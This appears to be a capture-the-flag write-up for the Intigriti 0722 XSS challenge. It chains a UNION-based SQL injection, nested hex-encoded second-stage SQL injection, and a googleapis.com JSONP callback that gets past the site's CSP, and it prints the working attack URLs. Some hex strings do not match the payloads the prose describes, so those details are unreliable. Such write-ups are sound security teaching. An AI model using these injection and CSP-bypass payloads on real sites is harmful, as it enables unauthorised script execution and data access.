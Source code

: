 ### Introduction:
The Intigriti 0722 XSS Challenge involves exploiting an SQL injection vulnerability to execute an XSS payload while bypassing Content Security Policy (CSP) restrictions.



**Challenge URL:** [https://challenge-0722.intigriti.io/](https://challenge-0722.intigriti.io/)

**Objective:** Trigger an alert box within the domain.


&nbsp;

### Initial Discovery
The application is a basic single-page blog with less functionality. The site mainly consists of static blog entries, with most links inactive except for the "Archives" links that filter posts by month.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image.png)

`?month` is the parameter used by the archives links and inserting a single quote (`'`) into this parameter caused an application error

Inserting the SQL injection payload `0 or 1=1` into the URL caused the posts to reappear:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=0 or 1=1`

Changing the payload to `0 or 1=2` caused the posts to disappear. This indicates that the month parameter is vulnerable to SQL injection.

&nbsp;

### SQL Injection

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until an error appeared on the page:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,4,5--`

The site did not produce an error with up to 5 fields, but adding a sixth field resulted in an error, indicating that there are 5 columns in the table.

When I inserted anything other than numbers, the site returned an error. This indicates that the 5 columns only accept numeric values, so we need to hex encode our payload for each column.

I encoded the XSS payload `<script>alert(1)</script>` into its hexadecimal representation: `0x3c7363726970743e616c6572742831293c2f7363726970743e`. I then inserted this encoded payload into each column to test if it would trigger an XSS attack. To differentiate the columns, I included distinct numbers inside each `alert()`.

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 0x3c7363726970743e616c6572742831293c2f7363726970743e,0x3c7363726970743e616c6572742832293c2f7363726970743e,0x3c7363726970743e616c6572742833293c2f7363726970743e,0x3c7363726970743e616c6572742834293c2f7363726970743e,0x3c7363726970743e616c6572742835293c2f7363726970743e--` 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%201.png)

The payloads are being reflected, but they are HTML encoded. Additionally, the author name field appears empty.

```html
	  <article class="blog-post">
		<h2 class="blog-post-title">&lt;script&gt;alert(2)&lt;/script&gt;</h2>
		<p class="blog-post-meta">&lt;script&gt;alert(5)&lt;/script&gt; by <a href="#"></a></p>

		<p>&lt;script&gt;alert(3)&lt;/script&gt;</p>
	  </article>
```

 Injecting values `1` or `2` into the fourth field of our UNION SELECT query displays the author names "Anton" and "Jake," respectively. Any other numeric values result in an empty author name field.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%202.png)

There might be a chance that the value from the fourth field is used in another SQL query and could be vulnerable to SQL injection. By injecting the hex-encoded payload `0x30206f7220313d30` (representing `0 or 1=0`) into the fourth field, the author name field returns empty. Conversely, injecting `0x30206f7220313d31` (representing `0 or 1=1`) displays the author name, confirming that it is vulnerable to SQL injection.

To identify the number of columns in the table, I used a UNION-based payload and incremented the number of fields until post’s author name is returned in the site.

Since only numerical values were accepted, I hex-encoded the payload `0 UNION SELECT 1,2,3` to `0x3020554e494f4e2053454c45435420312c322c33`

Inserting this hex-encoded payload into the fourth field of the initial SQLi UNION query:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c322c33,5--`

showed the author’s name. Adding an additional field to the second payload removed the author field, confirming that there are three columns in the second table. The value `2` is also reflected in the author name, coming from the second field of the Second SQLi payload

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%203.png)

I encoded the XSS payload `<script>alert(1)</script>` to hex format as `0x3c7363726970743e616c6572742831293c2f7363726970743e` and inserted it into the second field of the SQLi payload:

`0 UNION SELECT 1,0x3c7363726970743e616c6572742831293c2f7363726970743e,3`

Next, I hex-encoded the entire payload to `0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33`, which was then placed into the fourth field of the initial SQLi payload:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c307833633733363337323639373037343365363136633635373237343238333132393363326637333633373236393730373433652c33,5--`

The result of this payload:

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%204.png)

Although the payload renders without any encoding, it is not being triggered. Checking the console confirms that the payload is being blocked by the Content Security Policy.

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%205.png)

&nbsp;

### Bypassing CSP

Checking the HTTP response header reveals the site's Content Security Policy (CSP):

`Content-Security-Policy: default-src 'self' *.googleapis.com *.gstatic.com *.cloudflare.com`

This configuration restricts script execution to the origin or the three specified domains. 

To evaluate whether the CSP is correctly implemented, I used [Google's CSP Evaluator](https://csp-evaluator.withgoogle.com/). 

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%206.png)

The results indicated that the provided allowlists can be bypassed.

I then applied a CSP bypass method from [Brutelogic's CSP Bypass Guidelines](https://brutelogic.com.br/blog/csp-bypass-guidelines/), which utilizes the googleapis.com API.

I encoded the XSS payload

**`<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)"></script>`**

to its hex representation: `0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e`.

I then inserted this into the second field of the second SQLi payload:

`0 UNION SELECT 1,0x3c736372697074207365723d68747470733a2f2f7777772e676f6f676c65617069732e636f6d2f637573746f6d7365617263682f76313f63616c6c6261636b3d616c6572742831293e3c2f7363726970743e,3`

Next, I hex-encoded the entire payload:

`0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33`.

This was placed in the fourth field of the initial SQLi payload, resulting in the final payload that triggers the alert:

`https://challenge-0722.intigriti.io/challenge/challenge.php?month=2 union select 1,2,3,0x3020554e494f4e2053454c45435420312c30783363353336333732363937303734323035333732363333643638373437343730373333613266326637373737373732653637366636663637366336353631373036393733326536333666366432663633373537333734366636643733363536313732363336383266373633313366363336313663366336323631363336623364363136633635373237343238363436663633373536643635366537343265363436663664363136393665323933653363326635333633373236393730373433652c33,5--`

![image.png](/assets/img/Blog_images/intigriti-0722-xss-challenge/image%207.png)
